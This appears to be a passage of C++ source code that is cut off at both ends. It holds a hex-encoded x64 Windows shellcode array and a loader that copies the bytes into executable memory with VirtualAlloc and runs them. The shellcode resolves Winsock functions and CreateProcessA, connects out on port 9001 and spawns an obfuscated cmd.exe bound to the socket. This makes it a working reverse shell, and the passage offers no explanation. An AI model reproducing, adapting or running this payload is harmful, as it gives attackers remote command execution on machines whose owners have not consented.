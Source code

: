 ```c++
"\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x04\xbb\x4c\x01\xc0\x50\x41\x5f\x4d\x89\xfc\x4c\x89\xc7\x4c\x89\xc1"
"\xb8\x61\x72\x79\x41\x50\x48\xb8\x4c\x6f\x61\x64\x4c\x69\x62\x72\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff"
"\xd7\x48\x83\xc4\x30\x49\x89\xc7\x4d\x89\xe1\x48\x89\xf9\xb8\x65\x73\x73\x90\xc1\xe0\x08\xc1\xe8\x08\x50"
"\x48\xb8\x45\x78\x69\x74\x50\x72\x6f\x63\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd1\x48\x83\xc4\x30\x48"
"\x89\xc3\x4d\x89\xe1\x48\x89\xf9\x48\xb8\x6f\x63\x65\x73\x73\x41\x90\x90\x48\xc1\xe0\x10\x48\xc1\xe8\x10"
"\x50\x48\xb8\x43\x72\x65\x61\x74\x65\x50\x72\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd1\x48\x83\xc4\x30"
"\x49\x89\xc5\xb8\x6c\x6c\x90\x90\xc1\xe0\x10\xc1\xe8\x10\x50\x48\xb8\x77\x73\x32\x5f\x33\x32\x2e\x64\x50"
"\x48\x89\xe1\x48\x83\xec\x30\x41\xff\xd7\x49\x89\xc6\x4c\x89\xf1\xb8\x75\x70\x90\x90\xc1\xe0\x10\xc1\xe8"
"\x10\x50\x48\xb8\x57\x53\x41\x53\x74\x61\x72\x74\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd4\x49\x89\xc7"
"\x4c\x89\xf1\xb8\x74\x41\x90\x90\xc1\xe0\x10\xc1\xe8\x10\x50\x48\xb8\x57\x53\x41\x53\x6f\x63\x6b\x65\x50"
"\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd4\x48\x89\xc6\x4c\x89\xf1\xb8\x63\x74\x90\x90\xc1\xe0\x10\xc1\xe8"
"\x10\x50\x48\xb8\x57\x53\x41\x43\x6f\x6e\x6e\x65\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd4\x48\x89\xc7"
"\x4d\x89\xee\x48\x31\xc9\x66\xb9\x98\x01\x48\x29\xcc\x48\x8d\x14\x24\x66\xb9\x02\x02\x48\x83\xec\x28\x41"
"\xff\xd7\x48\x83\xc4\x30\x48\x31\xc9\xb1\x02\x48\x31\xd2\xb2\x01\x4d\x31\xc0\x41\xb0\x06\x4d\x31\xc9\x4c"
"\x89\x4c\x24\x20\x4c\x89\x4c\x24\x28\xff\xd6\x49\x89\xc4\x48\x83\xc4\x30\x49\x89\xc5\x4c\x89\xe9\x48\x31"
"\xc0\x48\xff\xc0\x48\xff\xc0\x48\x89\x04\x24\x66\xb8\x23\x29\x66\x89\x44\x24\x02\x48\xc7\xc0\x80\xff\xff"
"\xfe\x48\xf7\xd0\x48\x89\x44\x24\x04\x48\x8d\x14\x24\x41\xb0\x16\x4d\x31\xc9\x41\x51\x41\x51\x41\x51\x48"
"\x83\xc4\x08\x48\x83\xec\x60\x48\x83\xec\x60\xff\xd7\x48\x83\xc4\x30\x48\xb8\x9c\x92\x9b\xd1\x9a\x87\x9a"
"\xff\x48\xf7\xd0\x50\x48\x89\xe1\x41\x55\x41\x55\x41\x55\x48\x31\xc0\x50\x50\x66\x50\xb0\x01\xc1\xe0\x08"
"\x66\x50\x48\x31\xc0\x50\x50\x50\x66\x50\x66\x50\x50\x50\x50\xb0\x68\x50\x48\x89\xe7\x48\x89\xe0\x66\x2d"
"\xff\x04\x66\xff\xc8\x50\x57\x48\x31\xc0\x50\x50\x50\x48\xff\xc0\x50\x48\x31\xc0\x50\x50\x50\x50\x49\x89"
"\xc0\x49\x89\xc1\x48\x89\xca\x48\x89\xc1\x41\xff\xd6\x48\x31\xc9\xff\xd3";

int main() {
    // Allocate executable memory
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }

    // Copy shellcode to the allocated memory
    memcpy(exec_mem, shellcode, sizeof(shellcode));

    // Create a function pointer to the shellcode
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);

    // Execute the shellcode
    shellcode_func();

```